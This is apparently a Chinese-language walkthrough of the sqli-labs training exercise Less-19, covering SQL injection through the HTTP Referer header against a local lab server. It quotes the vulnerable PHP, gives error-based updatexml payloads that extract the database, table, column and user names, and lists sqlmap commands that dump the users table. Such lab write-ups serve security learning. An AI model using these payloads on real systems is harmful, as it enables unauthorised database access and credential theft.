 ```yaml
---
title: less19
url: https://www.yuque.com/u29002979/ep2zrx/ro4t2irmar3i3pv2
---
```


```bash
$sql="SELECT  users.username, users.password FROM users WHERE users.username=$uname and users.password=$passwd ORDER BY users.id DESC LIMIT 0,1";
	$result1 = mysql_query($sql);
	$row1 = mysql_fetch_array($result1);
		if($row1)
			{
			echo '<font color= "#FFFF00" font size = 3 >';
			$insert="INSERT INTO `security`.`referers` (`referer`, `ip_address`) VALUES ('$uagent', '$IP')";
```


成功登录后返回referer位置，说明在**数据包头referer位置有**注入点

> Your IP ADDRESS is: 192.168.31.119
> Your **Referer** is: http://192.168.31.193/Less-19/

<a name="NTGzZ"></a>

# 报错注入

<a name="X6iZN"></a>

## 爆破数据库名

`1',updatexml(1,concat(0x7e,database(),0x7e),1))#`

> Your IP ADDRESS is: 192.168.31.119
> Your Referer is: 1',updatexml(1,concat(0x7e,database(),0x7e),1))#
> XPATH syntax error: '~security~'

<a name="hycyr"></a>

## 爆破数据表名

`1',updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema = database()),0x7e),1))#` <a name="zblHG"></a>

## 爆破字段名

`1', updatexml(1,concat(0x7e,(select (column_name) from information_schema.columns where table_name='users' limit 8,1),0x7e),1)) -- +` <a name="IHMXL"></a>

## 爆破字段

`1', updatexml(1,concat(0x7e,(select username from users limit 0,1),0x7e),1)) -- +` <a name="gX5ct"></a>

# sqlmap

将数据包保存后 在referer后面加上*即可

```bash
POST /Less-19/ HTTP/1.1
Host: 192.168.31.193
Content-Length: 24
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.31.193
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.31.193/Less-19/*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

passwd=admin&uname=admin
```

```bash
检测注入点
sqlmap -r 2.txt --batch --level 4
爆破数据库名
sqlmap -r 2.txt --batch --level 4 --current-db
爆破数据表名
sqlmap -r 2.txt --batch --level 4 -D "security" --tables
爆破字段内容
sqlmap -r 2.txt --batch --level 4 -D "security" -T "users" --dump
```
